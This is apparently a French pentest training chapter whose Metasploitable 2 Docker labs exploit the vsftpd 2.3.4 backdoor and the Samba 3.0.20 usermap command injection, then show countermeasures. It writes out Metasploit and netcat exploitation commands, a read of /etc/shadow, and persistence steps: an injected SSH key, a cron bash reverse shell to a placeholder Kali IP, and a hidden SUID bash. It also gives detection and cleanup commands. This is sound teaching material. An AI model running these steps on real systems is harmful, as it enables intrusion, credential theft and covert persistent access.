



# Chapitre 02 : Tests de pénétration et exploitation — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète (reconnaissance → persistance)
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap ([T1046](https://attack.mitre.org/techniques/T1046/))
- Exploiter vsftpd 2.3.4 et Samba 3.0.20 avec Metasploit
- Obtenir un shell root et mettre en place une persistance ([TA0003](https://attack.mitre.org/tactics/TA0003/))

---

## Introduction

Un pentest n'est pas du "cassage" hasardeux. C'est une démarche méthodique en 7 phases, exigée par la réglementation (RGS, NIS2) pour toute administration manipulant des données sensibles. Le rapport de pentest est un **livrable réglementaire** qui conditionne l'homologation de sécurité du système.

Dans ce chapitre, vous construirez votre première kill chain ATT&CK complète : chaque phase de la reconnaissance à la persistance sera taguée avec sa tactique et sa technique.

> **Sources :** [PTES Technical Guidelines](http://www.pentest-standard.org/). [RGS v2.0 — ANSSI](https://www.ssi.gouv.fr/rgs).

---

## 1. Méthodologies de pentest et ATT&CK


**Fig 6** — Les 5 phases PTES : de la reconnaissance passive à la post-exploitation, avec correspondance aux tactiques MITRE ATT&CK.


Fig 6b — PTES structure et standardise le pentest : reproductible, traçable, conforme aux exigences réglementaires (RGS, NIS2).

### 1.1 OWASP — Open Web Application Security Project

L'**OWASP** (Open Web Application Security Project) est une fondation à but non lucratif qui publie le standard de facto pour la sécurité des applications web. Son livrable le plus connu est le **OWASP Top 10** — le classement des 10 vulnérabilités web les plus critiques, mis à jour tous les 3-4 ans.


*OWASP — Référence mondiale en sécurité applicative*



**OWASP Top 10 2021** — Les méthodes OWASP (guides, cheatsheets, outils comme ZAP) sont utilisées en complément du référentiel MITRE ATT&CK : ATT&CK décrit *qui* attaque *comment* (TTPs), OWASP décrit *quoi* corriger (vulnérabilités).

| Référentiel | Usage | Publie |
|---|---|---|
| **MITRE ATT&CK** | Cartographie des techniques adverses (langage commun) | Tactiques, techniques, procédures |
| **OWASP** | Sécurisation des applications web | Top 10, guides, outils (ZAP, SAMM) |
| **PTES** | Méthodologie de test de pénétration | Phases de pentest, livrables |

### Kill chain du jour



**Fig 7** — Kill chain du jour 2 : Reconnaissance nmap, exploitation vsftpd 2.3.4, shell root, persistance SSH.

---

## 2. Reconnaissance — [TA0007](https://attack.mitre.org/tactics/TA0007/) Discovery

La reconnaissance est la phase la plus importante : 70% du temps d'un pentest. Elle détermine la surface d'attaque.

```bash
# === Reconnaissance passive (sans toucher la cible) ===

# Requête WHOIS : obtient le propriétaire, les serveurs DNS, les dates d'enregistrement du domaine
whois <DOMAINE>

# Certificate Transparency : interroge crt.sh pour lister tous les sous-domaines connus via les certificats TLS émis
# -s : mode silencieux (pas de barre de progression curl)
# %25. : wildcard encodé (%) devant le domaine pour rechercher tous les sous-domaines
# jq = processeur JSON en ligne de commande. '.[]' parcourt chaque élément du tableau. '.name_value' extrait ce champ.
# sort -u : trie et dédoublonne la liste des sous-domaines
curl -s "https://crt.sh/?q=%25.<DOMAINE>&output=json" | jq '.[].name_value' | sort -u

# === Reconnaissance active (scan direct de la cible) ===

# Scan nmap exhaustif : tous les ports TCP, détection de version et scripts NSE par défaut
# -sV : détection des versions des services (bannières, probes)
# -sC : exécute les scripts NSE (Nmap Scripting Engine) par défaut (safe, discovery)
# -p- : scan tous les ports TCP (1-65535)
# -oA recon/full : sortie dans les 3 formats (normal .nmap, XML .xml, greppable .gnmap) avec le préfixe recon/full
nmap -sV -sC -p- <IP> -oA recon/full

# Scan nmap ciblé vulnérabilités : exécute la catégorie de scripts NSE "vuln" pour détecter des CVE connues
# --script vuln : exécute tous les scripts NSE de la catégorie vulnérabilités
# -oA recon/vuln : sortie dans les 3 formats avec le préfixe recon/vuln
nmap --script vuln <IP> -oA recon/vuln

# Scan nmap spécifique FTP : exécute tous les scripts NSE commençant par "ftp-" (ftp-anon, ftp-vsftpd-backdoor, etc.)
# --script ftp-* : wildcard pour tous les scripts NSE dont le nom commence par "ftp-"
nmap --script ftp-* <IP>
```

---

## Lab 2.1 — Reconnaissance du conteneur Metasploitable

###  Fiche

| Durée | Conteneur | Dossier | Tactique ATT&CK |
|---|---|---|---|
| 45 min | vsftpd (Metasploitable 2) | `~/cours-hacking/jour-2/labs/` | [TA0007](https://attack.mitre.org/tactics/TA0007/) → [T1046](https://attack.mitre.org/techniques/T1046/) |

### Contexte métier

Un pentest commence toujours par un scan exhaustif. Le client attend la liste complète des services exposés avec leurs versions. C'est la base du rapport.

### Étape 1 — Scan complet

```bash
# Création du dossier de reconnaissance et déplacement dedans
# mkdir -p : crée les dossiers parents si nécessaire, pas d'erreur si le dossier existe déjà
# && : la commande suivante ne s'exécute que si la première réussit
mkdir -p ~/cours-hacking/jour-2/labs/recon && cd ~/cours-hacking/jour-2/labs

# Scan nmap exhaustif sur localhost (Metasploitable mappé en port forwarding)
# ATTENTION : -p- scanne tous les 65535 ports TCP, peut prendre 20-30 minutes.
# Pour un scan rapide en formation, utilisez -p 21,22,80,445,3306,5432 à la place.
# -sV : détection des versions des services (envoie des probes spécifiques par port)
# -sC : exécute les scripts NSE par défaut (safe + discovery)
# -p- : scan tous les 65535 ports TCP (sans cette option, seuls les 1000 ports les plus courants sont scannés)
# -oA recon/full_scan : génère 3 fichiers de sortie (.nmap, .xml, .gnmap) dans le dossier recon/
# 2>&1 : redirige stderr vers stdout pour tout capturer dans le tee
# | tee recon/scan.txt : affiche la sortie ET l'enregistre dans recon/scan.txt
nmap -sV -sC -p- localhost -oA recon/full_scan 2>&1 | tee recon/scan.txt
```

Résultat attendu :

```console
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1
80/tcp   open  http        Apache httpd 2.2.8
445/tcp  open  netbios-ssn Samba smbd 3.0.20
3306/tcp open  mysql       MySQL 5.0.51a
5432/tcp open  postgresql  PostgreSQL DB 8.3.0
```

**Checkpoint A :** 6+ ports ouverts identifiés avec leurs versions.

### Étape 2 — Scan de vulnérabilités ciblé

```bash
# Scan nmap ciblé : détecte la backdoor vsftpd 2.3.4 (port 6200) via le script NSE dédié
# --script ftp-vsftpd-backdoor : script NSE qui teste si le serveur FTP est vulnérable à la CVE-2011-2523
# -p 21 : limite le scan au port FTP uniquement
# | tee recon/vsftpd.txt : affiche ET sauvegarde la sortie pour le rapport
nmap --script ftp-vsftpd-backdoor -p 21 localhost | tee recon/vsftpd.txt

# Scan nmap ciblé : tous les scripts NSE de vulnérabilités SMB connues (smb-vuln-ms08-067, smb-vuln-ms17-010, etc.)
# --script "smb-vuln*" : wildcard pour exécuter tous les scripts NSE dont le nom commence par "smb-vuln"
# -p 445 : limite le scan au port SMB (microsoft-ds)
nmap --script "smb-vuln*" -p 445 localhost | tee recon/smb.txt
```

### Étape 3 — Script de reconnaissance automatisé

```bash
# Déplacement dans le dossier de travail du lab
cd ~/cours-hacking/jour-2/labs

# Création du script de reconnaissance automatisé via heredoc
# cat > fichier << 'SCRIPT_EOF' : écrit tout ce qui suit jusqu'au marqueur SCRIPT_EOF dans le fichier recon.sh
# Les guillemets simples autour de SCRIPT_EOF empêchent l'expansion des variables dans le heredoc
cat > recon.sh << 'SCRIPT_EOF'
#!/bin/bash
# Horodatage du dossier de sortie pour éviter d'écraser les scans précédents
# date +%H%M : heure et minute actuelles (ex: 1435 pour 14h35)
OUTDIR="recon/$(date +%H%M)"
# Création du dossier de sortie horodaté (-p : crée les parents si nécessaire)
mkdir -p "$OUTDIR"
# Scan nmap des 6 ports critiques identifiés précédemment (évite de rescanner 65535 ports)
# -sV : détection de version des services
# -sC : scripts NSE par défaut (safe + discovery)
# -p 21,22,80,445,3306,5432 : ports FTP, SSH, HTTP, SMB, MySQL, PostgreSQL
# -oA "$OUTDIR/ports" : sortie 3 formats dans le dossier horodaté
nmap -sV -sC -p 21,22,80,445,3306,5432 localhost -oA "$OUTDIR/ports"
# Scan de la backdoor vsftpd 2.3.4 (CVE-2011-2523) sur le port FTP
nmap --script ftp-vsftpd-backdoor -p 21 localhost -oA "$OUTDIR/vsftpd"
# Scan des vulnérabilités SMB connues (EternalBlue, Samba usermap, etc.)
nmap --script "smb-vuln*" -p 445 localhost -oA "$OUTDIR/smb"
# Confirmation visuelle : affiche l'emplacement des résultats et le contenu du dossier
# [+]: préfixe conventionnel en pentest pour signaler une action réussie
# ls -la = liste détaillée (-l) de tous les fichiers y compris les fichiers cachés (-a)
echo "[+] Résultats dans $OUTDIR/" && ls -la "$OUTDIR/"
SCRIPT_EOF

# Rend le script exécutable (+x) puis l'exécute immédiatement
# chmod +x : ajoute le bit d'exécution pour le propriétaire, le groupe et les autres
chmod +x recon.sh && ./recon.sh
```

---

## Lab 2.2 — Exploitation vsftpd 2.3.4 (Backdoor)

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 40 min | vsftpd (port 21 → backdoor port 6200) | [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing App |

### Contexte technique

En 2011, le code source de vsftpd 2.3.4 a été compromis : un nom d'utilisateur contenant `:)` ouvre silencieusement un shell root sur le port 6200. Ce type de backdoor (supply chain attack) est toujours d'actualité — l'attaque SolarWinds (2020) suivait exactement le même principe.



**Fig 8** — Flux d'exploitation vsftpd 2.3.4 : le backdoor s'active sur `USER user:)`, ouvrant le port 6200 pour un shell root.

### Étape 1 — Exploitation Metasploit

Dans un terminal Kali :

```bash
# Lancement de Metasploit avec l'exploit vsftpd 2.3.4 en une seule commande (non-interactive)
# -q : mode quiet (supprime la bannière ASCII et les messages de démarrage)
# -x : exécute la chaîne de commandes Metasploit fournie, puis quitte
# use exploit/unix/ftp/vsftpd_234_backdoor : charge l'exploit CVE-2011-2523 (backdoor supply chain)
# set RHOSTS localhost : définit la cible distante (localhost car le port du conteneur est mappé)
# set RPORT 21 : définit le port distant cible (port FTP standard)
# run : exécute l'exploit (alias de exploit)
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS localhost; set RPORT 21; run"
```

Sortie attendue :

```console
[*] Banner: 220 (vsFTPd 2.3.4)
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened
```

**Checkpoint :** `uid=0(root)` — shell root direct, pas d'escalade nécessaire.

### Étape 2 — Exploitation manuelle

```bash
# Déclenchement manuel de la backdoor vsftpd 2.3.4 : envoi d'un nom d'utilisateur contenant ":)"
# printf formate la séquence FTP brute : "user :)\r\n" = USER suivi du smiley (\r\n = CRLF, fin de ligne FTP)
# "pass x\r\n" : mot de passe bidon, obligatoire pour compléter l'authentification FTP
# | nc localhost 21 : envoie ces données brutes sur le port FTP
# > /dev/null 2>&1 : ignore toute sortie (stdout et stderr) pour ne pas polluer le terminal
# & : exécute en arrière-plan pour ne pas bloquer le terminal
printf "user :)\r\npass x\r\n" | nc localhost 21 > /dev/null 2>&1 &

# Pause de 2 secondes pour laisser le temps au backdoor d'ouvrir le port 6200 sur la cible
# sleep 2 = met en pause l'exécution pendant 2 secondes (laisse le temps au backdoor d'ouvrir le port 6200)
sleep 2

# Connexion au shell root ouvert par la backdoor sur le port 6200
# nc (netcat) en mode interactif : tout ce que vous tapez est envoyé à la cible, les réponses s'affichent
nc localhost 6200

# Une fois connecté sur le port 6200, tapez dans la session nc :
# whoami
# → root
```

### Étape 3 — Post-exploitation

**Ces commandes s'exécutent DANS le shell root obtenu à l'étape précédente** (session Metasploit ou connexion manuelle), PAS dans votre terminal Kali.

```bash
# whoami : affiche l'utilisateur courant — doit retourner "root" (preuve de l'exploitation réussie)
whoami

# hostname : affiche le nom d'hôte — ici l'ID du conteneur Docker (Metasploitable)
hostname

# uname -a : affiche toutes les informations du noyau Linux (version, architecture, date de compilation)
# Permet d'identifier la version exacte du kernel pour rechercher des exploits d'escalade (si nécessaire)
uname -a

# Extraction des 5 premiers hashs du fichier /etc/shadow (mots de passe chiffrés des utilisateurs)
# cat /etc/shadow : lit le fichier des hashs (lisible uniquement par root)
# | head -5 : limite l'affichage aux 5 premières lignes pour ne pas submerger le terminal
cat /etc/shadow | head -5

# ss -tulpn : liste tous les sockets en écoute (services internes accessibles depuis le conteneur)
# -t : sockets TCP
# -u : sockets UDP
# -l : uniquement les sockets en écoute (listening)
# -p : affiche le PID et le nom du processus propriétaire
# -n : affiche les adresses en numérique (évite la résolution DNS, plus rapide)
ss -tulpn
```

**Checkpoint :** `uid=0(root)` — shell root direct, pas d'escalade nécessaire.

### 🔒 Contre-mesure (M1051 Update Software + M1013 App Hardening)

Le backdoor vsftpd 2.3.4 (CVE-2011-2523) est un **supply chain attack** : le code source a été compromis avant compilation. La correction :

| Contre-mesure | Action |
|---|---|
| **M1051** Mise à jour | `apt-get upgrade vsftpd` → version 3.0+ (non affectée) |
| **M1043** Integrity Check | Vérifier la signature GPG du paquet avant installation |
| **M1035** Least Privilege | `chmod -s /opt/vuln` — retirer le bit setuid |

```bash
# Simuler la mise à jour de vsftpd dans le conteneur
docker exec vsftpd-target bash -c "
  apt-get update -qq 2>/dev/null
  # Vérifier qu'aucun binaire backdoor n'écoute sur un port suspect
  ss -tulpn | grep -v '21\|22\|80\|445\|3306\|5432'
"
# Re-tester le backdoor vsftpd après mise à jour :
printf "user :)\r\npass x\r\n" | nc -w2 localhost 21 > /dev/null 2>&1
nc -z -w2 localhost 6200 && echo "ALERTE: backdoor actif" || echo "✓ Backdoor neutralisé"
# → ✓ Backdoor neutralisé  (la mise à jour a corrigé la CVE-2011-2523)
```

> **Checkpoint défensif :** Après mise à jour, le port 6200 ne s'ouvre plus.

---

## Lab 2.3 — Exploitation Samba + Kill Chain complète

###  Fiche

| Durée | Conteneur | Techniques |
|---|---|---|
| 50 min | vsftpd (port 445) | [T1210](https://attack.mitre.org/techniques/T1210/) + [T1059.004](https://attack.mitre.org/techniques/T1059/004/) + [T1098.004](https://attack.mitre.org/techniques/[T1098](https://attack.mitre.org/techniques/T1098/)/004/) |

### Contexte technique

Samba 3.0.20 (CVE-2007-2447) a un `usermap` script vulnérable : les métacaractères shell dans le nom d'utilisateur sont exécutés. C'est une **command injection** dans un service réseau — même principe que le lab DVWA du J1, mais sur un service SMB.

### Étape 1 — Exploitation Samba

Dans un terminal Kali :

```bash
# Récupération automatique de l'adresse IP Kali sur l'interface docker0 (réseau bridge Docker)
# ip addr show docker0 : affiche la configuration de l'interface docker0 (passerelle du réseau Docker)
# 2>/dev/null : supprime les erreurs si l'interface docker0 n'existe pas
# grep 'inet ' : filtre la ligne contenant l'adresse IPv4 (espace après inet pour éviter inet6)
# awk '{print $2}' : extrait le 2e champ (ex: 172.17.0.1/16)
# cut -d/ -f1 : supprime le masque CIDR (/16) pour ne garder que l'IP (ex: 172.17.0.1)
LHOST=$(ip addr show docker0 2>/dev/null | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)

# Exploitation Samba 3.0.20 via CVE-2007-2447 (usermap script command injection)
# -q : mode quiet (supprime la bannière Metasploit)
# -x : exécute les commandes Metasploit en une ligne (mode non-interactif)
# use exploit/multi/samba/usermap_script : charge l'exploit de command injection dans le script usermap
# set RHOSTS localhost : cible distante (le conteneur Metasploitable mappé sur localhost)
# set RPORT 445 : port SMB standard (microsoft-ds)
# set LHOST $LHOST : adresse IP Kali pour le shell reverse (payload bind/reverse)
# run : exécute l'exploit et tente d'obtenir un shell
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS localhost; set RPORT 445; set LHOST $LHOST; run"

# [*] Command shell session 2 opened
# Dans le shell Metasploit, tapez :
# whoami
# → root
```

### Étape 2 — Comparaison des deux exploits

| | vsftpd 2.3.4 | Samba 3.0.20 |
|---|---|---|
| Service | FTP (21) | SMB (445) |
| ATT&CK | [T1190](https://attack.mitre.org/techniques/T1190/) | [T1210](https://attack.mitre.org/techniques/T1210/) |
| Tactique | Initial Access | Lateral Movement |
| Mécanisme | Backdoor binaire | Command injection |
| Impact | root direct | root direct |

### Étape 3 — Persistance ([TA0003](https://attack.mitre.org/tactics/TA0003/))

**Dans le shell root obtenu via l'exploit Samba (Étape 1 ci-dessus)**, exécutez :

```bash
# === Persistance 1 : Clé SSH permanente (T1098.004) ===
# Création du dossier .ssh pour l'utilisateur root (-p : crée les parents si nécessaire, ignore si existe déjà)
mkdir -p /root/.ssh
# Ajout de votre clé publique SSH dans le fichier authorized_keys
# >> : ajoute à la fin du fichier (ne pas écraser une clé existante d'un autre attaquant ou de l'admin)
# Remplacez YOUR_PUBLIC_KEY par le contenu de ~/.ssh/id_rsa.pub de votre machine Kali
echo "YOUR_PUBLIC_KEY" >> /root/.ssh/authorized_keys
# chmod 600 : permissions restrictives obligatoires pour SSH (lecture/écriture propriétaire uniquement)
# Sans ces permissions, le démon SSH refusera d'utiliser le fichier authorized_keys
chmod 600 /root/.ssh/authorized_keys

# === Persistance 2 : Cron reverse shell (tâche planifiée toutes les minutes) ===
# /etc/crontab : fichier de configuration cron système (privilégié, exécuté en tant que root)
# 5 champs cron : minute heure jour mois jour_semaine — "* * * * *" = toutes les minutes
# root : l'utilisateur sous lequel la commande s'exécute
# bash -c '...' : exécute la chaîne entre guillemets dans un nouveau shell bash
# bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1 : reverse shell bash classique
#   -i : mode interactif (affiche le prompt)
#   >& /dev/tcp/<KALI_IP>/5555 : redirige stdout et stderr vers la connexion TCP sortante vers l'IP Kali
#   0>&1 : redirige stdin depuis la même connexion TCP (permet d'envoyer des commandes)
# Remplacez <KALI_IP> par l'adresse IP réelle de votre machine Kali
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab

# === Persistance 3 : SUID bash caché (porte dérobée furtive) ===
# cp /bin/bash /tmp/.bash_hidden : copie le binaire bash dans un emplacement discret (/tmp/)
# Le nom commence par un point (.) pour le cacher de la commande ls standard
# chmod 4755 : définit les permissions rwxr-xr-x + bit SUID (4)
#   Le bit SUID (Set User ID) fait que le binaire s'exécute avec les droits du propriétaire (root)
#   N'importe quel utilisateur lançant /tmp/.bash_hidden -p obtiendra un shell root
cp /bin/bash /tmp/.bash_hidden && chmod 4755 /tmp/.bash_hidden
```

### Étape 4 — Kill chain documentée

| Phase | Tactic | Technique | Outil |
|---|---|---|---|
| 1 | [TA0007](https://attack.mitre.org/tactics/TA0007/) Discovery | [T1046](https://attack.mitre.org/techniques/T1046/) | nmap -sV |
| 2 | [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) | Metasploit vsftpd |
| 3 | [TA0002](https://attack.mitre.org/tactics/TA0002/) Execution | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Shell root |
| 4 | [TA0003](https://attack.mitre.org/tactics/TA0003/) Persistence | [T1098.004](https://attack.mitre.org/techniques/[T1098](https://attack.mitre.org/techniques/T1098/)/004/) | SSH key |

### Checkpoints finaux

- [ ] nmap : 6+ ports identifiés
- [ ] vsftpd exploité → shell root
- [ ] Samba exploité → shell root
- [ ] Persistance mise en place
- [ ] Kill chain documentée

### 🔒 Contre-mesure (M1042 Disable Service + M1018 Account Management + M1022 File Integrity)

La kill chain du Jour 2 a laissé **3 backdoors actives**. Une défense complète doit :

| Backdoor | Détection | Suppression | Mitigation ATT&CK |
|---|---|---|---|
| SSH key dans `authorized_keys` | `cat /root/.ssh/authorized_keys` | `rm /root/.ssh/authorized_keys` | M1018 Account Management |
| Cron reverse shell dans `/etc/crontab` | `grep -r "bash -i\|/dev/tcp" /etc/cron*` | Supprimer la ligne suspecte | M1018 + M1036 Fail2ban |
| SUID bash `/tmp/.bash_hidden` | `find / -perm -4000 -type f 2>/dev/null` | `rm /tmp/.bash_hidden` | M1022 File Integrity |
| Samba 3.0.20 (CVE-2007-2447) | `dpkg -l samba` | `apt-get upgrade samba` | M1051 Update Software |

```bash
# Nettoyer les 3 backdoors de persistance laissées par l'attaque
docker exec vsftpd-target bash -c "
  # 1. Supprimer la clé SSH non autorisée
  # rm -f = supprime le fichier sans demander confirmation (force). À utiliser avec précaution : pas de corbeille !
rm -f /root/.ssh/authorized_keys && echo '[+] SSH key removed'
  # 2. Nettoyer les crontabs suspects (reverse shell)
  sed -i '/bash -i.*\/dev\/tcp/d' /etc/crontab 2>/dev/null && echo '[+] Cron cleaned'
  # 3. Supprimer le binaire SUID backdoor
  find /tmp /var/tmp -perm -4000 -type f -delete 2>/dev/null && echo '[+] SUID backdoors purged'
  # 4. Mettre à jour Samba
  apt-get upgrade -y samba 2>/dev/null && echo '[+] Samba upgraded'
"
# Vérification : les backdoors sont supprimées
docker exec vsftpd-target bash -c "
  echo '--- SSH keys ---' && ls /root/.ssh/ 2>/dev/null || echo '(aucune)'
  echo '--- Cron ---' && grep -c 'bash -i' /etc/crontab 2>/dev/null || echo '0'
  echo '--- SUID ---' && find /tmp -perm -4000 -type f 2>/dev/null | wc -l
"
```

> **Checkpoint défensif :** Plus aucune backdoor active. Samba est à jour (CVE-2007-2447 corrigée). Le serveur est propre.

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator J2

**Énoncé :** Créez une couche avec [T1046](https://attack.mitre.org/techniques/T1046/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1210](https://attack.mitre.org/techniques/T1210/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1098.004](https://attack.mitre.org/techniques/[T1098](https://attack.mitre.org/techniques/T1098/)/004/). Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
ATT&CK Navigator → New Layer → ajouter les 5 techniques → Download JSON
</details>

### Exercice 2 : Mapping EternalBlue

**Énoncé :** WannaCry (2017) : quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue → [T1210](https://attack.mitre.org/techniques/T1210/) ([TA0008](https://attack.mitre.org/tactics/TA0008/)), DoublePulsar → [T1543.003](https://attack.mitre.org/techniques/T1543/003/) ([TA0003](https://attack.mitre.org/tactics/TA0003/)), Chiffrement → [T1486](https://attack.mitre.org/techniques/T1486/) ([TA0014](https://attack.mitre.org/tactics/TA0014/))
</details>

---

## Points clés à retenir

- Kill chain ATT&CK : [TA0007](https://attack.mitre.org/tactics/TA0007/) → [TA0001](https://attack.mitre.org/tactics/TA0001/) → [TA0002](https://attack.mitre.org/tactics/TA0002/) → [TA0003](https://attack.mitre.org/tactics/TA0003/)
- vsftpd 2.3.4 → [T1190](https://attack.mitre.org/techniques/T1190/) (backdoor), Samba 3.0.20 → [T1210](https://attack.mitre.org/techniques/T1210/) (command injection)
- La persistance ([TA0003](https://attack.mitre.org/tactics/TA0003/)) distingue une intrusion d'une compromission durable
- **Rapport de pentest = livrable réglementaire** (homologation RGS, conformité NIS2)

## Pour aller plus loin

- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)

---

